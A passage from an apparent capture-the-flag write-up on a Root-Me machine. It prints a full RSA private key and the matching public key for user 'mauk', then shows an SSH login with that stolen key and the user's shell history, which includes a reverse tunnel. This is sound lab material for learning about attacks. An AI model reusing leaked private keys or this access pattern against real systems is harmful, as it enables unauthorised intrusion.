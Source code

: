 ```bash
MIIEpAIBAAKCAQEA5sm/rHHoCaTtncp7DCSIJlWnUg9eyfpJ3czIn18U1lv5ZQf0
9yGaDxafualdpXCNMo32mVQb9XQ7c2N7sdSdAjsgSjV0YG/IZGZNRyFS58YJQRdZ
5wRu6eKAlQVss/Lq3zwuBsT8Om/1/cKpVgB3ukPtKA97M5iSxL1VWWXg6GVoJ6f6
zIio/DZMFCxOU9Wyl7i8ssEoBxQlmgZh9pnYYhwo7Rf3RXBJeHDpuc1g+vol2vRN
ALXqIBlItS08MhoTaS0SK+pD98OU34M745U5Mo4TgFjYc+eD7xewyduWuS5IuFPd
xfcHkt0cQ7he0AYHuk5ooCI4ca3B0xcSZILWqwIDAQABAoIBAHNnIMxXLQNdkGAd
tsfMoLQikodrHif7WuJpG0zuG5pQ5XWKtAi7qbCvzHDnaudmT4SfDld/gneLhord
jSXQPi62aCATeL0cSGVD7pKJ7E3vbgM5bQAi7F9RnqBl1QRqjN3R1uYVrFaAU85v
f4N8umHOw5ELpLyZJ5LvZfVNB1jNIRpxINhAP+/kVslsZ93qyssljokKFMy/uOIH
r+SV3b3Zfogvg67AJ/g08jtCjYdbr7egPP2TYPMRz5fbTWCrc5m4EBvf5h5pP/w6
Go12YacY2lbF5wzbFUjIdNyF7RZHFDbSB0bM9aCDmXTfywlFswYdb7HyIZrstQ9W
BzWhIYkCgYEA/tUe/rhUcEYEXkhddkXWARcX0t9YNb8apY7WyVibiSyzh33mscRG
MLZoJJri5QMvNdYkNGr5zSGEo270Q2CzduKCbhVjXIybIbmggAc/80gZ5E8FDgJ7
szUKJL37BxXbAAYFIZkzXvc76Ve+vZvLfKMTbQqXTgKkQpGyRHLVOz8CgYEA59ht
YicNlz2yM26mpGqQNLGtEC1RmyZbPn03yJRTBJG5/sOlMw0RI+cMEiqyo7MKHmMZ
+Z7VKVtk8xEQbUy6EAeeSri/Fh1xiKRtlwwQSU1q2ooPOmdHyUp+rhseoPaDAJgy
3KJYbkQMzHVt6KhsWVTEnrz0VtxiTzRu7p2Y5ZUCgYEAt5X2RG+rdU8b6oibvI9H
Q3XNlf+NXvsUSV2EY33QX5yyodQUFNFf98wRbv2epHoM0u45GwJOgHe7RLq0gq3x
3J4GdSQ3dv9c64j9lf6jFbNF4/MBozwqvcpiSmILrOkT4wpzO+dQ2QOoR80M/zB0
ApDBd/b/VhYVHFg2Y5WPBKUCgYBn47SIMgXGCtBqeZ/UtyetZRyuzg/uXQ6v/r5b
dBOLTZ2xyouhR66xjtv63AU2k4jqOvAtyf2szZZ70N6yi5ooirFkvEpsJ39zgnLV
J4O4xScnjIvsWNFzIp2HeQGNkUj8oDbSZTEJIBc4GzrH8Yizsud0VimLLrAi29UF
ubsEzQKBgQDpWaD5rTcaWueiH2DwI7kbdgyf6yfpunsRNsnq0GqZ2wSaUyKt9b1j
bj9Dp+VxrUt584v//7z9Skkde2akJbA/qiF8/oOvzaiNRAOfpLCiqoL0vJ5dIvcg
aXwuOk5Dt0/xQWPAKHL6HYyzQjnad/VAmn6tnxko1A/S8ELiG+MUtg==
-----END RSA PRIVATE KEY-----

> cat /home/mauk/.ssh/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDmyb+scegJpO2dynsMJIgmVadSD17J+kndzMifXxTWW/llB/T3IZoPFp+5qV2lcI0yjfaZV
Bv1dDtzY3ux1J0COyBKNXRgb8hkZk1HIVLnxglBF1nnBG7p4oCVBWyz8urfPC4GxPw6b/X9wqlWAHe6Q+0oD3szmJLEvVVZZeDoZWgnp/rMiK
j8NkwULE5T1bKXuLyywSgHFCWaBmH2mdhiHCjtF/dFcEl4cOm5zWD6+iXa9E0AteogGUi1LTwyGhNpLRIr6kP3w5TfgzvjlTkyjhOAWNhz54P
vF7DJ25a5Lki4U93F9weS3RxDuF7QBge6TmigIjhxrcHTFxJkgtar mauk@Relativity
```

We even have access to the private ssh key, and we now that the current ssh user (mauk) is registered in the `authorized_keys`, so [we can use the private key to connect without password]( https://support.rackspace.com/how-to/logging-in-with-an-ssh-private-key-on-linuxmac/):

```bash
ssh -i private.key mauk@ctf06.root-me.org
```

Nothing could be found in the user directory, but we have access to the history:

```bash
1  ssh -f root@192.168.144.228 -R 6667:127.0.0.1:6667 -N
2  su -
3  exit
4  su -
```
